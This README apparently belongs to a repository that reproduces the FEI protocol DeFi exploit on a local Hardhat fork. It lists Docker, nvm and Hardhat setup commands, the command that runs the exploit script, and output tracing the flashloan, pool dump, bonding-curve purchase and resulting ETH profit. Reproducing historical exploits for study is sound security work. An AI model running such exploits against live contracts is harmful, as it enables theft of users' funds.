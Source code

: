 # fei-repro
Repro of FEI protocol hack on ubuntu:24.04

Link for read: https://medium.com/immunefi/a-guide-to-reproducing-ethereum-exploits-fei-protocol-224b30b517d6

Link for read: https://medium.com/@Brian.IsMeta/difficulty-of-reproducing-old-exploits-a613da2c2143

## for work on ubuntu:24.04

### start ubuntu:24.04
```
docker run -it --rm ubuntu:24.04 /bin/bash
```

### install dependency
```
apt-get update&& apt-get -y install curl git sudo nano mc
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.40.3/install.sh | bash
source ~/.bashrc
nvm install v22.20.0
npm install -g npm@11.6.1
npm install --global yarn
yarn add hardhat
```

### clone source
```
git clone https://github.com/klssstis/fei-repro&&cd fei-repro/
```

### insert your key
```
sed -i "s/<PUT YOUR API KEY HERE>/keykeykeykeykeykeykeykeykey/g" hardhat.config.js_
sed -i "s/<PUT YOUR API KEY HERE>/keykeykeykeykeykeykeykeykey/g" scripts/fei.js
```

### select hardhat-2
```
npx hardhat --init
```

### clean folder, after init
```
mv hardhat.config.js_ hardhat.config.js
rm contracts/Lock.sol
```
### start exploit 
```
npx hardhat run scripts/fei.js --verbose
```
### output
```
Exploit deployed to: 0x09635F643e140090A9A8Dcd712eD6285858ceBef
Balance before exploit 0n ETH
starting exploit
Updated oracle
Received WETH flashloan with premium 269
Dumped 207569 ETH on WETH/FEI pool
Bought Fei from bonding curve for 92430 ETH
Allocated ETH from Fei protocol
Swapped 527742092 Fei on WETH/FEI pool
Repaying ETH flashloan

##################################
ETH balance 9635065665081975267661 9635
If the balance is positive the exploit worked!
Balance after exploit 9635065665081975267661n ETH
```

